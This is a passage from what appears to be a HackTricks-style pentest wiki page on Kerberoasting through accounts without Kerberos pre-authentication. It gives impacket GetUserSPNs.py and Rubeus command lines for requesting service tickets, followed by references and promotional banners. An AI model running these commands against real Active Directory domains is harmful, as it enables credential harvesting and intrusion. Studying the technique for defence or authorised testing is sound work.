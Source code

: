 The technique is fully explained in this article: [Semperis blog post](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/).

{% hint style="warning" %}
You must provide a list of users because we don't have a valid account to query the LDAP using this technique.
{% endhint %}

#### Linux

* [impacket/GetUserSPNs.py from PR #1413](https://github.com/fortra/impacket/pull/1413):
```bash
GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
```
#### Windows

* [GhostPack/Rubeus from PR #139](https://github.com/GhostPack/Rubeus/pull/139):
```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"domain.local" /dc:"dc.domain.local" /nopreauth:"NO_PREAUTH_USER" /spn:"TARGET_SERVICE"
```
## References
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
